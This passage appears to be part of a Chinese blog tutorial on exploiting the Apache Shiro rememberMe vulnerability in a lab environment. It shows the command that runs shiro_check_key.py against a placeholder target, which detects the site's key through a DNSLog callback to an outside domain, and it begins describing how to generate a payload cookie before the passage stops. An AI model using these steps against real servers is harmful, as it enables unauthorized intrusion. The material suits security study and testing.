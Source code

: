 


![](https://img-blog.csdnimg.cn/20200502103208430.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



启动后，访问环境



![](https://img-blog.csdnimg.cn/2020050210331832.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 检测目标网站的key值



首先检测目标网站的rememberMe的key值



在DNSlog平台上申请一个子域名，传送门：[DNSLog Platform](http://www.dnslog.cn/ "DNSLog Platform")



![](https://img-blog.csdnimg.cn/20200502134629288.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



然后执行以下命令使用 shiro\_check\_key.py 检测目标网站的rememberMe的key值



```
python2 shiro_check_key.py http://xx.xx.xx.xx  "c39q1d.dnslog.cn"
```




![](https://img-blog.csdnimg.cn/20200502134724190.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



执行完成后，查看DNSLog平台，可以看到key值。



![](https://img-blog.csdnimg.cn/20200502134827650.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 验证是否有漏洞



然后再申请一个子域名



![](https://img-blog.csdnimg.cn/20200502110754116.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



然后使用执行以下命令使用 shiro\_poc.py 生成一个 payload.cookie 文件。脚本中的key值根据上面检测的key值来确定

